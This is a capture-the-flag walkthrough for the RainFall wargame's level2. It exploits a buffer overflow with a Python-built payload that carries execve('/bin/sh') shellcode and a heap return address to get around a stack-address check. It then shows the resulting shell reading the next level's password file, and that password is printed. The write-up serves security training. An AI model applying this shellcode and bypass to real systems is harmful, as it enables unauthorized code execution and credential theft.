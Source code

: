 # Walkthrough level2

Try to override saved EIP with 'CCCC':

```bash
level2@RainFall:~$ python -c "print('A' * 76 + 'B' * 4 + 'CCCC')" | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAAAAAABBBBCCCC
Segmentation fault (core dumped)
```

Here we don't have function who call `system("/bin/sh")` or something like so
we need to use a [shellcode](https://en.wikipedia.org/wiki/Shellcode).
To execute our shellcode we need to override saved EIP to point on it.
We can't use a pointer on the stack because there is a check if EIP is on the
stack. To avoid this we can use a heap pointer (thanks to `strdup`).

Try to run [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html):

```bash
level2@RainFall:~$ python -c "print('\x90' * 26 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A' * 26 + '\x08\xa0\x04\x08')" > /tmp/payload
level2@RainFall:~$ cat - | ./level2 < /tmp/payload
1Ph//shh/bin°
             ̀1@̀AAAAAAAAAAAAAAAAAAAA
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
